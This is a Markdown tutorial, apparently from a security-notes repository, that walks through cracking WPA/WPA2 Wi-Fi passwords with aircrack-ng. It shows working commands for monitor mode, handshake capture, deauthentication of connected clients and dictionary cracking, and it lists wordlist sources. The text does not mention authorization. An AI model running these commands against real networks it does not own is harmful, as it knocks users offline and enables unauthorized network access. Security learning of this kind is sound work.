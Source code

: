 # Password Cracking

## TLDR Commands

```bash
sudo apt-get install aircrack-ng #installs the aircrack suite
sudo airmon-ng start wlan0 #assuming wlan0 is the wlan of the wireless card
sudo airodump-ng wlan0mon #see local BSSIDs/ESSIDs
#run following on one terminal
sudo airodump-ng -c <channel_number_of_network> --bssid <BSSID of network> -w <output location of captured files> wlan0mon
#run following on another terminal and wait for handshake capture
sudo aireplay --deauth <count of deauthentication packets> -a <BSSID of network> wlan0mon
#after capture
sudo aircrack-ng <location of .cap file> -w <dictionary or wordlist>
```

## Setup

When it comes to password cracking, there are two main components that can potentially prevent you from cracking the password. This is not being able to capture the 4-way handshake, as well as not having the actual password in your wordlist. This guide will walk you though how to crack WPA/WPA2 passwords, as long as you have the two aforementioned items. I will be doing these cracks using the Kali Linux VMware OS. In order to intercept packets and crack passwords, we will need a network adapter. I have bought [this one](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2/) from Amazon:

![](../.gitbook/assets/image%20%2842%29.png)

Next you will have to install the software for cracking the password. We will be using the aircrack-ng suite for this. In order to download this, run the following command:

```c
sudo apt-get install aircrack-ng
```

This will download aircrack-ng, as well as the dependencies for air-crack-ng.

## Intercepting Passwords

In order to crack passwords, we will first have to capture the 4-way handshake. This allows us to then crack the capture \(.cap\) file in order to find out the password. In order to do this, we have to run the following command:

```bash
sudo airmon-ng start wlan0 #assuming wlan0 is the wlan of the wireless card
```

This command will initialize our wireless card to be in monitor mode. We can then use it to intercept traffic. The next command we will use will allow us to see the nearby networks and see their BSSIDs. 

```bash
sudo airodump-ng wlan0mon #same assumption as above
```

We can now see the local networks, alongside their BSSIDs. I usually let the command run for 10-30 seconds, which gives it enough time to get together a good list of local networks. We then have to capture the handshake. For this to happen, we will have to have two terminal windows open simultaneously. On the first terminal we will run the following command:

```bash
sudo airodump-ng -c <channel_number_of_network> --bssid <BSSID of network> -w <output location of captured files> wlan0mon
```

On the other terminal, we will run:

```bash
sudo aireplay --deauth <count of deauthentication packets> -a <BSSID of network> wlan0mon
```

This part gets a bit complicated. We have to run the "aireplay" command with a count that will allow us to get a handshake capture. For me, 20 works. The capture will be seen in the terminal running "airodump-ng". If nothing has changed in the "airodump-ng" terminal, then the handshake has not been captured yet. When the handshake is captured, you can go to the "Cracking Passwords" section of this tutorial. 

## Cracking Passwords

In order to crack passwords, there are 2 main methods to do it: using aircrack-ng to crack the password file, or using a password cracking software such as John the ripper or hashcat. I will be using the aircrack-ng command to crack the passwords. As I mentioned earlier, the only way you will be able to crack the password are based on two conditions: you have a 4-way handshake captured in a .cap file, and you have the password to the wifi in the dictionary you are using. I would reccomend building your own wordlist. This can help you have a dictionary which has 8+ characters \(which is the minimum password size\). I would look at the following links to make your own list. I use a \(somewhat\) combination of all of the following links:

* [https://github.com/kennyn510/wpa2-wordlists](https://github.com/kennyn510/wpa2-wordlists)
* [https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA](https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA)
* [https://github.com/berzerk0/Probable-Wordlists/blob/master/Real-Passwords/WPA-Length/Real-Password-WPA-MegaLinks.md](https://github.com/berzerk0/Probable-Wordlists/blob/master/Real-Passwords/WPA-Length/Real-Password-WPA-MegaLinks.md)

You could also make your own password list using the "crunch" command on Kali or Parrot OS. 

To crack the password, using the aircrack-ng command, we will run the following command:

```bash
sudo aircrack-ng <location of .cap file> -w <dictionary or wordlist>
```

### Resources

* [https://book.hacktricks.xyz/pentesting/pentesting-network/wifi-attacks\#wifi-basic-commands](https://book.hacktricks.xyz/pentesting/pentesting-network/wifi-attacks#wifi-basic-commands)
* [https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46](https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46)
* [https://medium.com/@TheEyeOfCyberBuckeyeSecurity/how-to-crack-wpa-wpa2-wi-fi-passwords-using-aircrack-ng-8cb7161abcf9](https://medium.com/@TheEyeOfCyberBuckeyeSecurity/how-to-crack-wpa-wpa2-wi-fi-passwords-using-aircrack-ng-8cb7161abcf9)
* \(MacOS aircrack setup\) [https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html](https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html)

